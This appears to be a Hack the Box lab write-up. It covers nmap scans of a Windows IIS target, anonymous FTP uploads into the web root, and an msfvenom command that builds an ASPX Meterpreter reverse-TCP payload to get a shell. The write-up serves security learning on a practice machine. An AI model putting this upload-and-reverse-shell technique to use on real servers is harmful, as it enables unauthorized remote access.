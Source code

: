 # Nmap
```CSS
▶ nmap -Pn -sS -p- -T4 --min-rate 5000 10.10.10.5 -oN surface.scan

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-07 15:28 IST
Nmap scan report for 10.10.10.5
Host is up (0.26s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 26.62 seconds
```
```CSS
▶ nmap -sC -sV -p 21,80 --min-rate 5000 10.10.10.5 -oN deep.scan

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-07 15:31 IST
Nmap scan report for 10.10.10.5
Host is up (0.26s latency).
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.37 seconds
```

# FTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d7c41409-5936-4da5-8464-17f3d93385d2)

# HTTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/1b24c617-3c50-4c19-a2c6-4993b136cba5)

# Foothold
- Observe that the FTP server is in the same route as the HTTP server. Which means there stands a chance if file uploads are allowed a file is uploaded via FTP and it can be then accessed directly using the browser.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/a94a4267-2326-4851-9cae-7da69ae1da6e)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/43ce2b5e-170d-40e1-96b9-26541fa165ee)

- Create a text file with any random name and upload it. Then access the uploaded file in the browser.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/db8bd9ae-4356-43c7-ad3d-2501ebb011a1)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/3c67d341-5538-410c-aa80-6caa588743c0)

## MSFVenom
  - Generate a payload using `MSFVenom` for a reverse tcp connection to get a shell.
```CSS
▶ msfvenom -p windows/meterpreter/reverse_tcp -f aspx -o rsp.aspx
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/191b9c18-0899-429c-a7ed-6bd245caf619)
